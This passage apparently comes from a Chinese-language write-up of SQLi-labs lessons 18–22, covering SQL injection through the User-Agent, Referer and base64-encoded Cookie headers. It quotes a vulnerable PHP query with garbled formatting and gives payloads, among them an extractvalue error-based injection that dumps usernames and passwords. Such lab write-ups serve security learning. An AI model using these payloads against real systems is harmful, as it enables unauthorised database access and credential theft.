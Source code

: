 看到 insert语句，他把user-agent插入到了数据库，所以可以从这里下手，而且看的出来是单引号型，接下来开始爆破

![image-20201111105010705](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20201111105010705.png)

注入失败，添加后依旧无报错回显(大概率环境问题)

![image-20201111105149565](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111105149565.png)



## 0X13Less-19

同18， 注入点在referer字段，同样注入失败

## 0X14Less-20

通过cookie字段添加payload完成注入  报错注入

![image-20201111110718557](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111110718557.png)

orderby 联合查询注入

uname=' order by 4 #；

![image-20201111112330422](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111112330422.png)



## 0X15Less-21

```
$cookee` `= ``$_COOKIE``[``'uname'``];
``$cookee` `= ``base64_decode``(``$cookee``);
``$sql``=``"SELECT * FROM users WHERE username=('$cookee') LIMIT 0,1"``;
``die``(``'Issue with your mysql: '` `. mysql_error());
```

相比Less-20进行了base-64处理，因此在20基础上将payload进行base64编码后添加到cookie处即可



## 0X16Less-22

![image-20201111113115305](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111113115305.png)

在21基础上多了一重 "闭合

base编码

![image-20201111113742316](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111113742316.png)



![image-20201111113721591](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111113721591.png)

admin" and extractvalue(1,concat(0x7e,(select group_concat(username,'~',password) from users))) #
